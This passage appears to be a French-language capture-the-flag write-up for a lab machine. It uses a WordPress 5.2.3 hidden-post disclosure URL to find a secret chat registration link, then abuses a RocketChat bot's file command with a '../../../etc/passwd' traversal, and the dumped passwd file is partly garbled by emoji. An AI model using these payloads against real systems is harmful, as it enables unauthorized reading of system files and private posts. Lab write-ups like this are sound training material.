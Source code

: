 ```bash
[+] Data Sent: 42.416 KB
[+] Data Received: 167.972 KB
[+] Memory used: 280.184 MB
[+] Elapsed time: 00:00:07
```

### Viewing unauthenticated posts.md
http://office.paper/?static=1&order=desc

Permet d'afficher des messages cachés normalement non accessible. C'est une vulnerabilité de wordpress 5.2.3 :

Vuln:
**Wordpress <=5.2.3: viewing unauthenticated posts.md**

On trouve le message suivant qui semble intéressant :
```bash
## Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

On arrive sur une page, où l'on peut créer un compte rapidement et on obtient l'accès à une sorte de discord avec un chat:
L'application RocketChat.

### RocketChat bot

En fouillant on voit qu'il existe un profil avec un bot, on peut discuter avec lui. Avec la commande help on voit une commande qui permet d'afficher des fichiers. Cette commande fait appelle à `cat` pour afficher n'importe quel fichier. On peut utiliser cette commande comme une LFI pour afficher le contenu de n'importe quel fichier :

```bash
recyclops file test.txt

cat: /home/dwight/sales/test.txt: No such file or directory

recyclops file ../../../etc/passwd

 <!=====Contents of file ../../../etc/passwd=====>
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd❌998:996:User for polkitd:/:/sbin/nologin
geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
qemu❌107:107:qemu user:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
```